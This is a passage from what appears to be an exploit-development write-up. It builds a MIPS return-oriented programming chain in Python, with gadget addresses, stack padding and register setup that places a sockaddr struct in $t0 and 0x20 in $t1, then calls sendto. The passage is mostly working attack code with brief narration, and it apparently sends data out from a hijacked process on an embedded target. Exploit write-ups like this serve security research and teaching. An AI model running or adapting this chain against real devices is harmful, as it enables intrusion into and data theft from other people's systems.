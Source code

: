 With our _sockaddr_in_ struct completed and stored, we can now work on moving it into _$t0_:

```
-python
## Load t0 value into v0
# Load v0 from stack
# 0x00057864: lw $v0, ($sp); lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10;
chain += p32(sockaddr_addr) # v0 - sockaddr address
chain += b'b' * 8
chain += p32(0x15d20c + base_address) # ra

# Move sockaddr from v0 into t0 (load v0 from stack, move into t0)
# 0x0015d20c: move $t0, $v0; lw $ra, 0x2c($sp); addiu $s0, $zero, 0x163; move $v0, $s0; lw $s7, 0x28($sp); lw $s6, 0x24($sp);
#   lw $s5, 0x20($sp); lw $s4, 0x1c($sp); lw $s3, 0x18($sp); lw $s2, 0x14($sp); lw $s1, 0x10($sp); lw $s0, 0xc($sp); jr $ra; addiu $sp, $sp, 0x30;
chain += b'b' * 0xc
chain += p32(0xdeadbeef) # s0
chain += p32(0xdeadbeef) # s1
chain += p32(0xdeadbeef) # s2
chain += p32(0xdeadbeef) # s3
chain += p32(0xdeadbeef) # s4
chain += p32(0xdeadbeef) # s5
chain += p32(0xdeadbeef) # s6
chain += p32(0xdeadbeef) # s7
chain += p32(0x1895cc + base_address) # ra
```

That last gadget is very ugly, but gadgets that move values into _$t0_ are pretty limited so I had to take what I could get.

Now we can finally complete the arguments by putting 0x20 into _$t1_:

```
-python
# Move 0x20 into t1
# 0x001895cc: addiu $t1, $zero, 0x20; lw $ra, 0x2c($sp); lw $s2, 0x28($sp); lw $s1, 0x24($sp); lw $s0, 0x20($sp); jr $ra; addiu $sp, $sp, 0x30;
chain += b'b' * 0x20
chain += p32(0xdeadbeef) # s0
chain += p32(0xdeadbeef) # s1
chain += p32(0xdeadbeef) # s2
chain += p32(0x57864 + base_address) # ra
```

With all the arguments in place, we can finally call the function - you know the drill by now:

```
-python
# Load address of sendto into v0
# 0x00057864: lw $v0, ($sp); lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10;
chain += p32(sendto_addr) # v0 - sendto address
chain += b'b' * 8
chain += p32(0x15114 + base_address) # ra

# Call sendto and regain control
# 0x15114: jalr $v0; nop; lw $ra, 4($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 8;
chain += b'b' * 4
chain += p32(0xdeadb33f) # ra
```
